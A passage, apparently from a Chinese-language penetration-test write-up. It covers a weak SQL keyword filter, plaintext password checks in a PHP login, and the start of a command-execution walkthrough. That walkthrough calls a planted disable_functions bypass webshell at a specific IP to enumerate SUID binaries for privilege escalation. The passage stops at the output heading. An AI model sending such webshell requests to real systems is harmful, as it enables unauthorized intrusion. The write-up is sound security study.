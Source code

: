 ### 问题说明：

- 匹配规则写得过于简单，容易被编码、大小写混淆、注释符等方式绕过。
- 不是结构化的SQL防护，不能替代真实的参数化查询机制。

------

#### 5. 🔓 弱密码验证机制

**文件路径**: `www/verify.php`

### 漏洞代码：

```php
if($email == $row['username'] && $pswd == $row['password']){
    echo "Welcome admin! Long time no see";
}
```

### 问题说明：

- 明文存储密码，缺乏哈希加盐处理
- 容易被撞库、爆破攻击
- 未做验证码、登录次数限制等防护

------

### 🎯 命令执行漏洞利用过程

#### 第一步：枚举系统中可利用的 SUID 程序

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=find / -perm -4000 -type f 2>/dev/null | head -10&outpath=/tmp/suid_binaries&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so
```

**执行命令：**

```bash
find / -perm -4000 -type f 2>/dev/null | head -10 > /tmp/suid_binaries 2>&1
```

### 输出：
